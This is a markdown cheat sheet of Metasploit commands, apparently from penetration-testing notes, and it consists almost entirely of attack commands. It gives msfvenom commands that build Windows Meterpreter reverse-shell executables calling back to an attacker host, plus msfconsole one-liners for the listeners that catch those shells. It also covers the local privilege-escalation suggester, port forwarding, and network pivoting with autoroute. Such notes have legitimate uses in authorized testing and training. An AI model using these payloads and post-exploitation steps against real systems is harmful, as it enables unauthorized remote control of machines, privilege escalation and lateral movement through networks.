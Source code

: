#### Starting metasploit
```bash - kali
sudo msfdb run
```

#### Windows exe
64:
```bash - kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter64.exe
```

86:
```bash - kali
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter86.exe
```

#### Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

#### Non-Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```

```metereprter - kali
set verbose true
```

```metereprter - kali
set exitonsession false
```

#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```

#### Pivoting
```meterperter - kali
background
```

```meterperter - kali
use post/multi/manage/autoroute
```

set subnet to the new found subnet:
```meterperter - kali
set SUBNET x.x.x.x
```

```meterperter - kali
set SESSION 2
```

```meterperter - kali
exploit
```








